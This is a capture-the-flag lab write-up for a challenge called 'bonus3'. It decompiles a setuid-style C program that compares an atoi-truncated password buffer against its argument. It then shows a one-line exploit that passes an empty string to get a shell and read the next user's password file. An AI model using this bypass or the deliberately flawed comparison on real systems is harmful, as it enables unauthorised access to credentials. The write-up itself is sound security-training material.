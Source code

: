 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← bonus2](../bonus2/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;"></span>
</span>

bonus3
======

Decompilation
-------------

The program looks like this:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int ac, char **av)
{
	int err;
	char buff[64 + 1 + 66];
	FILE *pass_file;

	pass_file = fopen("/home/user/end/.pass","r");

	bzero(buff, 33);

	if ((pass_file == NULL || (ac != 2)))
		err = -1;
	else
	{
		fread(buff, 1, 66, pass_file);
		buff[64] = '\0';

		buff[atoi(av[1])] = '\0';

		fread(buff + 64 + 1, 1, 65, pass_file);

		fclose(pass_file);

		if (strcmp(buff, av[1]) == 0)
			execl("/bin/sh","sh", 0);
		else
			puts(buff + 64 + 1);

		err = 0;
	}
	return err;
}
```

The main opens the end user's pass file and reads it's contents into a buffer.
It does so twice, at different offsets, but the second call should only read a NUL-byte.
The string is trimmed to the length specified in the first argument.
If the trimmed password is equal to the argument, a shell will be launched.

Exploitation
------------
This one is too easy...
The return value of atoi when given an empty string is zero. If we pass an empty string as an argument, the password string will become an empty string and the comparison will succeed.

```sh
./bonus3 '' <<< 'cat /home/user/end/end'
```
```
Congratulations graduate!
```
